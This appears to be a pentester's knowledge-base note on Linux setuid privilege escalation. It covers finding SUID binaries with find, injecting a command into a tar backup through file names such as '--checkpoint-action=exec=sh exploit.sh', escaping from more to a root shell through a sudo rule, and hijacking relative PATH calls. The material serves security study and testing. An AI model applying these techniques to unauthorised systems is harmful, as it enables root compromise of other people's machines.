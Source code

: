 ```yaml
---
id: exploit_setuid_binaries
aliases:
  - SETUID
tags:
  - privilege_escalation
  - linux
---
```


## Usage:
The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the s or S permission in the file user or group owner permissions (i.e. ---s--s---). When the file permissions features an uppercase S instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights. 
> [!WARNING]
> - Just like capabilities, setuid and setgid bits are unset when a file is copied with cp or when its content changes.
> - Some partitions of the UNIX file system can be mounted with the nosuid option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like /tmp or/run. Searching the /proc/mounts pseudo-file for a nosuid flag can help find these partitions.

## Find SETUID:
- `sudo -l`
- find:
```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
  ```

## Exploit SETUID:
### Living off the land:
> [!WARNING]
> Check if the binary is in [GTFOBins](https://gtfobins.github.io/gtfobins/) for exploitation techniques
#### Examples:
  ##### Using [shell_wildcards](hack/vulnerabilities/shell_wildcards.md) and tar  
    - Imagine a scenario where a script backups a directory (that we can control) on the server each hour using tar like this :
       ```bash
       !/bin/bash
       mkdir -p /backups/
       cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
       ``` 

  - To use these options in our exploit, we just need to create these two files in our directory, as well as the exploit.sh file, containing the command we want to run when we trigger the execution :
      ```bash 
      echo '' > '--checkpoint=1'
      echo '' > '--checkpoint-action=exec=sh exploit.sh'

      $ ls -lha 
      total 88K
      drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
      drwxrwxrwt 89 user user 76K avril 27 22:31 ..
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file1
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file2
      -rw-rw-r-- 1 user user 1 avril 27 22:31 '--checkpoint=1'
      -rw-rw-r-- 1 user user 1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
      -rwxrwxrwx 1 user user 784 avril 27 22:32 exploit.sh   
      ```
 ##### Using `more` and `sudo` :
   - Let's take an example, with this sudo configuration :
      ```bash
      $ sudo -l
      [sudo] password for user: 
      Matching Defaults entries for user on PC1:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
      ```
   - User user may run the following commands on PC1:
     `(ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log`

   - In this case user can run the more command, but only to read a specific log file /var/log/apache2/access.log as root without password (NOPASSWD flag) :
     `sudo -u root /usr/bin/more /var/log/apache2/access.log`

   - You can assume this would be safe right ? Unfortunately, it's not. The more command has various useful options, one of them is !. When you're in more and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type !/bin/sh in more, you will open a shell as the owner of the parent more process !:

     ```bash
      $ sudo -u root /usr/bin/more /var/log/apache2/access.log
      File content line 1
      File content line 2
      ...
      File content line n
      ------------------------
      !/bin/sh
      # 
      uid=0(root) gid=0(root) groups=0(root)
      #
      ```

### Relative path calls:
  1. Usage:
    - The SETUID can be exploited if it makes calls via relative starting_path
  2. Discovery:
    - It can be discovered with `strace` command
  3. Exploitation:
    - Create an exploit and name it the same as the command called by the SETUID
    - Put the exploit path in the $PATH env variable
    - Now when the SRYUID will make the call it will search for it in PATH and execute the exploit
